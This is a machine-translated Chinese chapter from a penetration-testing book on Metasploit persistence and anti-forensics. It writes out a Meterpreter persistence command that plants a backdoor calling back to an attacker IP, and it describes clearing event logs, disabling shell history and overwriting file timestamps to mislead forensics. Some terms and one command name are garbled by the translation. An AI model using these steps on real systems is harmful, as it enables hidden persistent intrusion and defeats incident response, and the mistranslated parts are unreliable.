







# 十七、维护访问权限和清理踪迹

在上一章中，我们学习了权限升级的概念以及实用的升级技术。

在本章中，我们将学习如何在受损系统上维护访问权限，并使用反取证技术清理轨迹。我们将学习如何在受损系统上创建持久后门，并使用 Metasploit 的反取证能力清除渗透痕迹。

本章将介绍以下主题：

*   维护访问权限
*   清理路轨
*   反取证

# 维护访问权限

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。让我们假设您正在对目标进行渗透测试，并努力使用 Metasploit 获得远程系统访问。您希望在任务继续期间，将这一来之不易的访问权限保留几天。但是，无法保证受损系统在此期间是否会重新启动。如果它重新启动，您的访问权限将丢失，您可能需要再次工作才能获得相同的访问权限。这正是我们想要维护或保持对受损系统的访问的场景，而不管它是否重新启动。

Metasploit 提供了一些优秀的内置机制，可以帮助我们保持对受损系统的持久访问。第一步是针对易受攻击的目标系统使用适当的可用漏洞，并获得 MeterMeter 访问权限，如以下屏幕截图所示：



一旦攻击成功，我们就可以访问远程系统。Metasploit 中的 MeterMeter 提供了一个名为`persistence`的实用程序，可帮助我们在受损系统上安装永久后门。我们可以通过`run persistence -h`命令了解更多关于`persistence`实用程序的信息：



现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

此命令将执行`persistence`脚本并启动一个匹配的处理程序（`-A`），将仪表表放置在目标系统（`-L c:\\`上的`c:\\`，在系统引导时自动启动侦听器（`-X`），每 60 秒检查一次连接（`60`），在端口`443`（`-p 443`上连接），并通过 IP 地址`192.168.25.130`与我们联系。

`persistence`脚本执行的输出如下：



既然`persistence`脚本已经成功安装在目标系统上，我们就不必担心重新启动了。即使目标系统有意或无意地重新启动，`persistence`脚本也会自动连接回我们，让我们再次访问 MeterMeter。

# 清理路轨

渗透测试由针对目标执行的一系列复杂任务组成。这些任务的执行以多种方式影响目标系统。一些配置文件可能会被修改，许多审核记录可能会记录在日志文件中，对于 Windows 系统，注册表中可能会有更改。所有这些变化都有助于研究者或蓝队成员追踪攻击向量。

完成渗透测试后，最好清除在泄露过程中使用的所有剩余文件。然而，这需要与蓝队达成一致。清除所有痕迹背后的另一个意图可能是测试一个组织的事件后响应方法。然而，现实世界中的攻击者只会利用它来掩盖自己的行踪，不被发现。

Metasploit 具有某些功能，有助于清除轨迹。首先，我们需要利用漏洞，让 MeterMeter 访问我们的目标：


以下屏幕截图显示了目标系统上的应用事件日志：



以下屏幕截图显示了目标系统上的`System`事件日志：



现在我们已经授予 MeterMeter 访问目标系统的权限，我们将使用`getsystem`命令将我们的权限升级为管理员的权限。MeterMeter 有一个名为`clearev`的实用程序，用于清除目标系统上的审核记录。当我们执行`clearev`时，目标上的所有审核记录都被删除：



以下屏幕截图显示没有应用事件日志，因为它们被`clearev`删除：



以下屏幕截图显示没有系统事件日志，因为它们被`clearev`删除：


类似地，在使用 Linux 操作系统的目标上，我们可以做一些事情来清除跟踪。Linux 终端维护一个命令历史记录，可以使用`history`命令查看：


在 Linux 系统（基于 Debian）上，负责控制命令历史记录的参数为`$HISTSIZE`。如果我们能够将其值设置为`0`，则不会存储任何命令历史记录：


# 反取证

在上一节中，我们看到渗透测试任务会留下多个轨迹和轨迹。事后的法医调查可以揭示很多关于妥协是如何发生的。进行法医分析时的一个重要因素是时间戳。文件时间戳有助于重新创建可能发生的一系列活动。

Metasploit 提供的功能可以有效地用于覆盖时间戳值并误导法医调查。

首先，我们使用针对目标的漏洞来获取 MeterMeter 访问权限。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：


我们现在可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件关联的所有时间戳：


# 总结

在本章中，我们学习了对受损目标进行持久访问的各种技术。我们还学习了从受损系统中清除痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将了解正确的漏洞评分的重要性。